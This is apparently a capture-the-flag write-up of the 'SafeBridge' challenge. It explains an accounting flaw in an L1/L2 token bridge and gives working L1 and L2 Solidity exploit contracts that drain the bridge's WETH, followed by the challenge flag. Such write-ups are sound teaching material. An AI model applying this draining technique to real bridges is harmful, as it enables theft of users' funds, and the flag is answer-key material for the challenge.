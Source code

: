 # SafeBridge (17 solves) (224 points)

![](https://i.imgur.com/mlfmr1P.png)

The goal of this challenge is the drain the bridge in L1 :
```
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Challenge {
    address public immutable BRIDGE;
    address public immutable MESSENGER;
    address public immutable WETH;

    constructor(address bridge, address messenger, address weth) {
        BRIDGE = bridge;
        MESSENGER = messenger;
        WETH = weth;
    }

    function isSolved() external view returns (bool) {
        return IERC20(WETH).balanceOf(BRIDGE) == 0;
    }
}
```

It will first deposit 2 ether of WETH to the L1 bridge and bridge them to L2_WETH in the L2
```
    function deploy(address system) internal returns (address challenge) {
        vm.createSelectFork(vm.envString("L1_RPC"));
        vm.startBroadcast(system);
        address relayer = getAdditionalAddress(0);
        L1CrossDomainMessenger l1messenger = new L1CrossDomainMessenger(relayer);
        WETH weth = new WETH();
        L1ERC20Bridge l1Bridge =
            new L1ERC20Bridge(address(l1messenger), Lib_PredeployAddresses.L2_ERC20_BRIDGE, address(weth));

        weth.deposit{value: 2 ether}();
        weth.approve(address(l1Bridge), 2 ether);
        l1Bridge.depositERC20(address(weth), Lib_PredeployAddresses.L2_WETH, 2 ether);

        challenge = address(new Challenge(address(l1Bridge), address(l1messenger), address(weth)));
        vm.stopBroadcast();
    }
```

So there is 2 ether of WETH locked in the L1 bridge

Here is a simple graph showing how the bridge works (bridging tokens from L1 to L2) :

![](https://raw.githubusercontent.com/Kaiziron/real-world-ctf-6th-writeups/main/graph.png)

When the bridges are bridging to another side, it will call the CrossDomainMessenger, which emit events for the relayer to read and relay to another side

When we are bridging from L2 back to L1 :

```
    function _initiateWithdrawal(address _l2Token, address _from, address _to, uint256 _amount) internal {
        IL2StandardERC20(_l2Token).burn(msg.sender, _amount);

        address l1Token = IL2StandardERC20(_l2Token).l1Token();
        bytes memory message;
        if (_l2Token == Lib_PredeployAddresses.L2_WETH) {
            message = abi.encodeWithSelector(IL1ERC20Bridge.finalizeWethWithdrawal.selector, _from, _to, _amount);
        } else {
            message = abi.encodeWithSelector(
                IL1ERC20Bridge.finalizeERC20Withdrawal.selector, l1Token, _l2Token, _from, _to, _amount
            );
        }

        sendCrossDomainMessage(l1TokenBridge, message);

        emit WithdrawalInitiated(l1Token, _l2Token, msg.sender, _to, _amount);
    }
```

It just call the `_l2Token` to get the `l1Token` address, so we can just create and mint our own token and set `l1Token` to L1 WETH and bridge it to L1, the L2 withdrawal will not revert and the relayer will relay it back to L1

However, if we do that, it will underflow in the L1 bridge and revert, because it will subtract the amount from the deposits mapping, and by default the deposits mapping of L1 WETH and our own token will be 0 :

```
    function finalizeERC20Withdrawal(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        public
        onlyFromCrossDomainAccount(l2TokenBridge)
    {
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] - _amount;
        IERC20(_l1Token).safeTransfer(_to, _amount);
        emit ERC20WithdrawalFinalized(_l1Token, _l2Token, _from, _to, _amount);
    }
```

But in the L1 bridge `_initiateERC20Deposit()`, it will set the deposits mapping wrongly : 

```
    function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        internal
    {
        IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

        bytes memory message;
        if (_l1Token == weth) {
            message = abi.encodeWithSelector(
                IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
            );
        } else {
            message =
                abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
        }

        sendCrossDomainMessage(l2TokenBridge, message);
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

        emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
    }
```

If the `_l1Token` is L1 WETH, it will send the message with L2_WETH as the L2 token no matter what `_l2Token` we set, but it will increase the deposits mapping of L1 WETH and the `_l2Token` we set instead of L2 WETH

So we can just deposit 2 ether of L1 WETH and set `_l2Token` to our own token to increase the deposits mapping of L1 WETH and our own token to 2 ether

Although this will also increase the L1 WETH of L1 bridge, it doesn't matter because we will stll receive L2 WETH on the L2 as the `_l2Token` in the message it is sending to L2 is set to L2 WETH

So we can just withdraw those L2 WETH we received to get back 2 ether of L1 WETH from the L1 bridge, even our deposit did not increase the deposits mapping of L1 WETH and L2 WETH, it won't underflow because the mapping is already set to 2 ether initially in the deploy script when it bridge 2 ether of L1 WETH to L2 WETH

### Exploit (L1) :

```
pragma solidity ^0.8.20;

import "./Challenge.sol";
import "./L1/L1ERC20Bridge.sol";
import "./L1/WETH.sol";

contract Exploit {
    address public bridge;
    address public messenger;
    address public weth;
    address public exploitL2;
    Challenge public chall;

    constructor(address _challenge, address _exploitL2) {
        chall = Challenge(_challenge);
        bridge = chall.BRIDGE();
        messenger = chall.MESSENGER();
        weth = chall.WETH();
        exploitL2 = _exploitL2;
    }

    function exploit() public payable {
        require(msg.value == 2 ether, "msg.value != 2 ether");
        WETH(payable(weth)).deposit{value: 2 ether}();
        WETH(payable(weth)).approve(address(bridge), 2 ether);
        L1ERC20Bridge(bridge).depositERC20To(address(weth), exploitL2, exploitL2, 2 ether);
    }
}
```

### Exploit (L2) :

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Lib_PredeployAddresses} from "./libraries/constants/Lib_PredeployAddresses.sol";
import {L2StandardERC20} from "./L2/standards/L2StandardERC20.sol";
import "./L2/L2ERC20Bridge.sol";
import "./L2/standards/L2WETH.sol";

contract ExploitL2 is L2StandardERC20 {
    address public bridge = Lib_PredeployAddresses.L2_ERC20_BRIDGE;
    
    constructor() L2StandardERC20(address(0), "ExploitL2", "EXP2") {}

    function exploit(address L1_WETH) public {
        l1Token = L1_WETH;
        _mint(address(this), 2 ether);
        L2StandardERC20(address(this)).approve(bridge, type(uint256).max);
        L2ERC20Bridge(bridge).withdraw(address(this), 2 ether);

        L2WETH(Lib_PredeployAddresses.L2_WETH).approve(bridge, type(uint256).max);
        L2ERC20Bridge(bridge).withdraw(Lib_PredeployAddresses.L2_WETH, 2 ether);
    }
}
```

### Flag :

```
rwctf{yoU_draINED_BriD6E}
```